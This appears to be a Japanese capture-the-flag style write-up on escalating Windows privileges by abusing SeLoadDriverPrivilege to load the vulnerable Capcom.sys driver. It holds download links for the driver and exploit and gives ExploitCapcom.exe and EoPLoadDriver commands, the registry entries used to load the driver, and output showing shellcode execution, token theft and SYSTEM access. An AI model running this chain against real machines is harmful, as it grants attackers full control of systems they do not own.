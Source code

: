 # エクスプロイトとドライバファイル（コンパイル不要）

- [Capcom.sys (mega.nz)](https://mega.nz/file/GiBTmCRD#cRz3XWMEojDvrd0LHPE3GpXKkYdikITvco8qKwmdgzQ)
- [ExploitCapcom.exe (github - clubby789)](https://github.com/clubby789/ExploitCapcom/releases/tag/1.0)

（sysファイルはドライバファイルの一つ。接続されたデバイスを制御するためのデータが含まれてる。）

<br>

**SeLoadDriverPrivilege**という権限があるから当たり前かのようにドライバのロードが出来る。

# 使い方

Exploit.Capcom.exeひとつでドライバのロードからコマンド実行まで可能。

```
*Evil-WinRM* PS C:\Users\svc-print> .\ExploitCapcom.exe LOAD C:\Users\svc-print\Capcom.sys
[*] Service Name: xmgrpdtl@õµó5
[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-2633719317-1471316042-3957863514-1104\???????????????????
NTSTATUS: 00000000, WinError: 0

*Evil-WinRM* PS C:\Users\svc-print> .\ExploitCapcom.exe EXPLOIT whoami
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 00000241542B0008
[+] Shellcode was executed
[+] Token stealing was successful
[+] Command Executed
nt authority\system
```

#  [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)

これだけで
- SeLoadDriverPrivilegeの付与
- HKEY_CURRENT_USER下へのレジストリキーの作成
- NTLoadDriverの実行
まで行ってくれる。

```
EOPLOADDRIVER.exe RegistryServicePath DriverImagePath
```

新しくCapcom用にロードするならたとえば
```
.\EOPLOADDRIVER.exe System\CurrentControlSet\MyCapcom C:\Windows\svc-print\Downloads\Capcom.sys
```

<br>

ちなみに、ドライバのロードにはドライバサービス名をレジストリに登録する必要がある。

たとえば今回なら

```
*Evil-WinRM* PS C:\Users\svc-print> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Users\svc-print\Capcom.sys"
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc-print> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type  /t REG_DWORD /d 1
The operation completed successfully.
```

このboxではすでにSeLoadDriverPrivilegeの権限があったが、そうでない場合はこのレジストリの設定を行ったあとにEnableSeLoadDriverPrivilege.exe
とかをつかって権限を付与してやる。

# 結局何をしてるのか？（Comcomのドライバってなに？）

Capcom.sysはドライバファイル、そしてこのドライバはユーザ空間で定義された関数を使ってカーネル空間でコード実行できる機能がある。

それで、CapcomというドライバにおいてLPE（Local Privilege Escalation）の脆弱性及びエクスプロイトが公開されてる

つまりSeLoadDriverPrivilegeの権限があれば、この脆弱なCapcomというドライバをロードできて、それに対するエクスプロイトを使えるということ。

